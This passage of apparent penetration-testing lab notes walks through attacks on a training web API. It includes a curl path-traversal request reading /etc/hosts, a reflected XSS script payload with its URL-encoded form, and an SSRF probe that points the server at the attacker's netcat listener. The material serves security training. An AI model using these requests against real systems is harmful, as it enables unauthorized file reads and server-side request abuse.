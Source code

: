 ```
{"success":false,"error":"Input the filename via /download/<filename>"}
```
#### Attempt LFI input
```Shell
curl "http://10.129.226.209:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```

## XSS
#### Look at API from previous section at `http://<TARGET IP>:3000/api/download`
![[xss api.png]]
`test_value` is reflected in the response
#### Try entering JavaScript code into the URL instead of `test_value`
```javascript
<script>alert(document.domain)</script>
```
![[xss payload 1.png]]
It appears it's URL encoding it
#### URL encode the payload
```JavaScript
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```
![[xss payload 2.png]]
## Server-Side Request Forgery (SSRF)
#### Go to `http://<TARGET IP>:3000/api/userinfo`
#### Interact w/ API using cURL
```Shell
curl http://10.129.202.133:3000/api/userinfo
```
Output:
```
{"success":false,"error":"'id' parameter is not given."}
```
#### Start a netcat listener
```Shell
nc -lnvp 4444
```
#### Use `id` parameter to try and GET request your own IP
```Shell
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
```
#### If unsuccessful, try base64 encoding
```Shell
echo "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
```
